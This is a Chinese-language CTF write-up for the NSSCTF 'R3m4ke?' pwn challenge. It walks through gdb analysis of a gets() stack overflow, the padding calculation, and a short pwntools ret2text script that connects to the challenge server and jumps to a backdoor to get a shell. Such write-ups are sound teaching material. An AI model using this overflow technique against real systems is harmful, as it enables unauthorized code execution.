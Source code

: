 ## 基本信息

- 题目名称：[NSSCTF 2022 Spring Recruit]R3m4ke?
- 题目链接：https://www.nssctf.cn/problem/2141
- 考点清单：栈溢出，ret2text

- 工具清单：gdb，python-pwntools

- payloads：详见本文末尾

## 一、看到什么

### 第一轮

-   gdb打开，查看函数

![gdb-info-function.png](./images/NSSCTF_2022_Spring_Recruit_gdb-info-function.png)

-   查看LookAtMe，是后门函数

![gdb-dis-LookAtMe.png](./images/NSSCTF_2022_Spring_Recruit_gdb-dis-LookAtMe.png)

-   查看NSS、init，多是一些初始化操作

![gdb-dis-otherFunc.png](./images/NSSCTF_2022_Spring_Recruit_gdb-dis-otherFunc.png)

-   查看main函数，发现漏洞点：gets函数，由此确定攻击方式为 **缓冲区溢出 + ret2text**

![gdb-dis-main.png](./images/NSSCTF_2022_Spring_Recruit_gdb-dis-main.png)

-   查看程序信息，64位小端，保护只开NX

![pwntools-info.png](./images/NSSCTF_2022_Spring_Recruit_pwntools-info.png)

## 二、想到什么解题思路

### 第一轮

-   确定攻击方式为 **gets函数缓冲区溢出 + ret2text**

-   分析程序以确定 **padding**
-   反汇编LookAtMe，已确定 **addr = 0x40072c**

-   **padding * b’A’ + p64(addr)** 可实现 **getshell**

## 三、尝试过程和结果记录

### 第一轮

-   分析main反汇编代码，发现给了0x20的栈空间

![gdb-dis-main.png](./images/NSSCTF_2022_Spring_Recruit_gdb-dis-main.png)

-   确定 **padding = 0x20 + 8 = 0x28**

-   编写payload

![payload-r3m4ke.png](./images/NSSCTF_2022_Spring_Recruit_payload-r3m4ke.png)

-   测试，一遍过

![flag-r3m4ke.png](./images/NSSCTF_2022_Spring_Recruit_flag-r3m4ke.png)

## 四、Payload

```python
from pwn import *
lc = './r3m4ke1t'
rmt = "node4.anna.nssctf.cn"
po = 28012


ELF(lc)
p = remote(rmt, po)

padding = 0x20 + 8
addr = 0x40072c

payload = b'a' * padding + p64(addr)

p.sendline(payload)
p.interactive()
```

